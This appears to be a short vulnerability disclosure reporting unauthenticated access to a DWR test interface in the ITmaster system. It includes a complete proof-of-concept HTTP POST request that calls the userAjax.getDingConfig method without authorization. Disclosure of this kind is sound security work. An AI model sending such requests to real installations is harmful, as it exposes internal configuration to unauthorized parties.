

## Unauthorized access exists on the ITmaster System

Company website ：https://www.nstrong.com/

Vulnerability description: Unauthorized access exists on the interface of the system, which may leak internal system information and affect the normal use of the system.

Affected system：


## Vulnerability details（漏洞详情）

```
/UserCenter/dwr/test/userAjax  Unauthorized access to the interface page
```



The functions of this page are available and may threaten the user's system security


POST data:

```http
POST /UserCenter/dwr/call/plaincall/userAjax.getDingConfig.dwr HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 184
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: text/plain
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=49BA7EDA18CA1AC9C15D78ACDF69594A
Connection: close

callCount=1
page=/UserCenter/dwr/test/userAjax
httpSessionId=
scriptSessionId=B1046221C4EA245DED5A9162D26421B4492
c0-scriptName=userAjax
c0-methodName=getDingConfig
c0-id=0
batchId=17

```

